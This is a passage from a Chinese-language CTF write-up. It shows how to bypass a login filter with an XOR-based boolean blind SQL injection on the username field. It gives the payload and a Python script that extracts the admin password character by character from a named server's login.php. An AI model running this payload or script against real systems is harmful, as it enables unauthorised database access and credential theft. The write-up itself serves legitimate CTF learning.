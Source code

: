 这样就有办法了，我们可以通过异或来构造这个`0`

测试一下

```
php > echo 'admin'^1^1;
0
php > echo 'admin'^1;
1

```

但是我们还要闭合后面的`'`

```
php > echo 'admin'^1^'1';
0
php > echo 'admin'^0^'1';
1

```

成功

利用`sql1`给的查询语句知道字段名是`passwd`

payload

```
username=admin'^(ascii(mid((passwd)from(1)))>=32)^'1&passwd=123

```

当`ascii(mid((passwd)from(1)))>=10`为真时，返回1，所以username的值就是0，返回`passwd is wrong`，当`ascii(mid((passwd)from(1)))>=10`为假时，返回0，username的值这是就是1，返回`wafed by pupiles`

利用这点我们就可以盲注了

脚本如下

```python
import requests
url = 'http://45.40.207.251:8002/login.php'
s = requests.Session()
passwd = ''
for l in range(1,33):
    for c in range(32,133):
        username = "admin'^(ascii(mid((passwd)from(%d)))>=%d)^'1'='1" % (l,c)
        data = {'username':username, 'passwd':123}
        html = s.post(url,data=data).text
        if 'admin' in html:
            passwd += chr(c - 1)
            print passwd
            break

```

